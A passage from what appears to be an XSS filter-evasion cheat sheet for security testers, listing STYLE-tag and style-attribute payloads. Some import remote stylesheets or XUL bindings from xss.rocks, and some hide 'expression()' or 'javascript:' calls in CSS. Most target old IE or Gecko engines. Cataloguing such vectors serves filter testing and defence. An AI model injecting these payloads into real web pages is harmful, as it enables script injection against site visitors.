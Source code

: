  
#### Remote style sheet part 2 
This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used to hack Google
Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is useful if you
cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:
 
```
    <STYLE>@import'http://xss.rocks/xss.css';</STYLE> 
```
 #### Remote style sheet part 3
 This only works in Gecko rendering engines and works by binding an XUL
file to the parent page. 
```
     <STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
```
 
### STYLE Tags that Breaks Up JavaScript for XSS 
This XSS at times sends IE into an infinite loop of alerts: 
```
     <STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```
 
### STYLE Attribute that Breaks Up an Expression 
```
     <IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```
 
(Created by Roman Ivanov) 
### IMG STYLE with Expressions 
This is really a hybrid of the last two XSS vectors, but it really does show how hard STYLE tags can be to parse apart. This can send IE into a
loop: 
```
     exp/*<A STYLE='no\xss:noxss("*//*");
    xss:ex/*XSS*//*/*/pression(alert("XSS"))'> 
```
 ### STYLE Tag using Background-image
 
```
    <STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A> 
```
 ### STYLE Tag using Background
 
```
    <STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>     <STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```
 
### Anonymous HTML with STYLE Attribute 
The IE rendering engine doesn\'t really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a
letter: 
```
     <XSS STYLE="xss:expression(alert('XSS'))">
```
 